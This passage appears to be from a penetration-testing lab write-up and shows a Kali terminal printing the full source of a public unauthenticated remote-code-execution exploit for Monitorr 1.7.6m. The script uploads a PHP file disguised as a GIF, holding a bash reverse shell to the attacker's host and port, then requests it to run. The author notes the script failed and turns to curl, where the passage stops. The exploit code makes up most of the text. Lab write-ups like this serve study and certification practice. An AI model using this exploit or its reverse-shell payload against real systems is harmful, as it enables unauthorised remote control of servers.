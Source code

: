 ## Script Failed

```sh
┌──(alienum㉿kali)-[~/Desktop/oscp]
└─$ cat 48980.py      
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    cookie =  {"isHuman": "1"}
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.png.phP\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data, cookies=cookie, verify='r.pem')

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.png.phP"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers, cookies=cookie, verify='r.pem')
```

Again the Script failed, after that i gave up for a while and i tried again with the famous CURL ;)

## File Upload | CURL
